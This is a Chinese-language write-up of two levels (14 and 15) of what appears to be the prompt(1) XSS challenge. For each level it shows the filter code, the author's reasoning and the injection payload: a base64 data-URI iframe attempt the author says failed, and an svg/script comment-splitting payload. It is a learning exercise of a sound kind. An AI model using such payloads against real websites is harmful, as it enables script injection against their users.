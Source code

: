 ```
    // I expect this one will have other solutions, so be creative :)
    // mspaint makes all file names in all-caps :(
    // too lazy to convert them back in lower case
    // sample input: prompt.jpg => PROMPT.JPG
    input = input.toUpperCase();
    // only allows images loaded from own host or data URI scheme
    input = input.replace(/\/\/|\w+:/g, 'data:');
    // miscellaneous filtering
    input = input.replace(/[\\&+%\s]|vbs/gi, '_');

    return '<img src="' + input + '">';
} 
```
这里先把输入转换为大写字母，然后把//和字母换为data:，最后把\\&+%和空白字符，vbs替换为_。这里就鸡肋了，不能用编码后的字符了，由于js对大小写敏感，所以只能用外部脚本了。我查了资料，最后的payload没有成功。
* payload:
```
"><IFRAME/SRC="x:text/html;base64,ICA8U0NSSVBUIC8KU1JDCSA9SFRUUFM6UE1UMS5NTD4JPC9TQ1JJUFQJPD4=
```
## 第15关
```
function escape(input) {
    // sort of spoiler of level 7
    input = input.replace(/\*/g, '');
    // pass in something like dog#cat#bird#mouse...
    var segments = input.split('#');

    return segments.map(function(title, index) {
        // title can only contain 15 characters
        return '<p class="comment" title="' + title.slice(0, 15) + '" data-comment=\'{"id":' + index + '}\'></p>';
    }).join('\n');
}  
```
这关和第7关差不多，这里就过滤了/*，所以这里构造有关的注释就可以了。
* payload:
`"><svg><!--#--><script><!--#-->prompt(1)<!--#--></script>`
在火狐浏览器就不需要后面的</script>
`"><svg><!--#--><script><!--#-->prompt(1)</`
ok,今天就到这里了，因为我也是刚开始学安全知识，如果我写的不好，请谅解，我会努力进步的。
